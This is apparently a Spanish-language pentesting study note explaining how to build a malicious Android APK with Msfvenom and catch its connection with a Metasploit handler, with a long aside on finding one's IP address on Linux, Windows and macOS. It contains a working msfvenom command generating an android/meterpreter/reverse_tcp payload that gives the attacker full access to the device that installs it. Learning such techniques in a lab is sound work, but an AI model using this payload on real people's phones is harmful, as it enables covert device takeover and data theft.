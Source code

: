 Dentro de esta sección vamos a aprender cómo crear nuestro *malware* usando **Msfvenom**, debido a que veremos pruebas revisando directorios y encontrando información multimedia e imagenes dentro del dispositivo. Para esto primeramente tendemos que tener ya instalada la aplicación maliciosa dentro de nuestro dispositivo o nuestro equipo.

Para ayudarnos a crear nuestra *Aplicación maliciosa* será ayudarnos de unos de los módulos que tiene **Metasploit** llamado **Msfvenom**.

Con **Msfvenom** vamos a crear nuestro *malware* y con **Metasploit** vamos a usar un *handler* para crear la conexión. Con el *handler* nos pondremos en modo escucha (*modo listening*) para esperar una conexión.

Cuando el equipo víctima instala la APK y la ejecuta, lo que va a ocurrir es que va a intentar realizar una conexión, y si nosotros nos encontramos en modo escucha, la conexión se establecerá correctamente. Y si se establece correctamente tendremos acceso completo al dispositivo.

Existen muchos tipos de *payloads* y en este caso vamos a usar uno que hace un **reverse tcp**. Este *payload* se caracteriza porque la víctima es la que se conecta a nosotros.

>El otro tipo de conexión que existe es la conexión **bind** que es cuando la victima está en modo escucha y nosotros nos tratamos de conectar a ella.

Pues vamos a empezar a crear nuestra aplicacion maliciosa podemos seguir los siguientes pasos:

Vamos a empezar ingresando a **Metasploit**:

```bash
msfconsole
```

````ad-note
title: Nota

Necesitamos la IP de nuestra máquina actula para usar el módulo con *Msfvenom*:

```ad-info
title: Linux (Debian/Ubuntu y Red Hat/CentOS):
collapse: true

1. **Comando `ifconfig` (en desuso en algunas distribuciones):**

	- Abre una terminal.
	- Escribe `ifconfig` y busca la sección correspondiente a la interfaz de red para encontrar tu dirección IP.

2. **Comando `ip` (recomendado):**

	- Abre una terminal.
	- Escribe `ip a` y busca la sección correspondiente a la interfaz de red para encontrar tu dirección IP.

3. **Comando `hostname -I`:**

	- Abre una terminal.
	- Escribe `hostname -I` y encuentra tu dirección IP actual.

4. **Comando `ss` (Socket Statistics):**
    
    - Abre una terminal.
    - Escribe `ss -tuln` para ver las conexiones de red y las direcciones IP locales.

5. **Comando `nmcli` (NetworkManager Command-Line Interface, en sistemas con NetworkManager):**
    
    - Abre una terminal.
    - Escribe `nmcli device show` para obtener información detallada de las interfaces de red, incluyendo la dirección IP si está configurada mediante NetworkManager.
```

```ad-info
title: Windows
collapse: true

1. **Utilizando el símbolo del sistema (CMD):**
    
    - Abre el símbolo del sistema.
    - Escribe `ipconfig` y busca la sección correspondiente a la interfaz de red para encontrar tu dirección IP.

2. **Utilizando PowerShell:**
    
    - Abre PowerShell.
    - Escribe `Get-NetIPAddress` para obtener información de la dirección IP.

3. **Configuración de red en la interfaz gráfica:**
    
    - Ve a "Configuración" (Windows + I).
    - Haz clic en "Red e Internet".
    - Selecciona tu conexión de red activa y encuentra la dirección IPv4 bajo "Configuración de IPv4".
```

```ad-info
title: MacOS
collapse: true

1. **Utilizando la Terminal:**
    
    - Abre la Terminal.
    - Escribe `ifconfig` y busca la sección correspondiente a la interfaz de red para encontrar tu dirección IP.

2. **Utilizando el menú de red (método gráfico):**
    
    - Haz clic en el ícono de Apple en la esquina superior izquierda.
    - Ve a "Preferencias del Sistema" > "Red".
    - Selecciona la conexión de red activa y encuentra tu dirección IP en la parte derecha de la ventana.

3. **Utilizando el comando `networksetup` (para obtener información de la interfaz específica):**
    
    - Abre una terminal.
    - Escribe `networksetup -getinfo Wi-Fi` para la interfaz Wi-Fi, o `networksetup -getinfo Ethernet` para la interfaz Ethernet. La dirección IP se mostrará en la salida.

4. **Utilizando el comando `netstat` (para ver la dirección IP predeterminada):**
    
    - Abre una terminal.
    - Escribe `netstat -nr | grep default` para ver la dirección IP predeterminada.

5. **Utilizando el comando `arp` (para encontrar la dirección IP de dispositivos en la red local):**
    
    - Abre una terminal.
    - Escribe `arp -a` para ver una lista de dispositivos en la red local junto con sus direcciones IP.
```

````

Entonces dentro de la consola de **Metasploit** vamos a empezar a usar los *payloads* para generar nuestra aplicación maliciosa:

```shell
msf6 > msfvenom -p android/meterpreter/reverse_tcp LHOST=<DIRECCON_IP> LPORT=<PUERTO> -o <APK_MALICIOSA>.apk
```

Donde:
- `LHOST`: será la IP de nuestra máquina atacante.
- `LPORT`: será el puerto que vamos a usar para establecer la conexión.
- `APK_MALICIOSA`: será el nombre que le daremos a nuestra aplicación maliciosa.

Y ahora tendremos generada nuestra *aplicación maliciosa* con el nombre que la hayamos dado.

Ahora deberemos de transferirla e instalarla dentro de nuestro dispositivo móvil, para eso podemos ayudarnos creando un servidor web para transferir archivos[^1].










[^1]: Traspasar ficheros por red:
	- [[Servidor Apache]]
	- [[Servidor Python]]


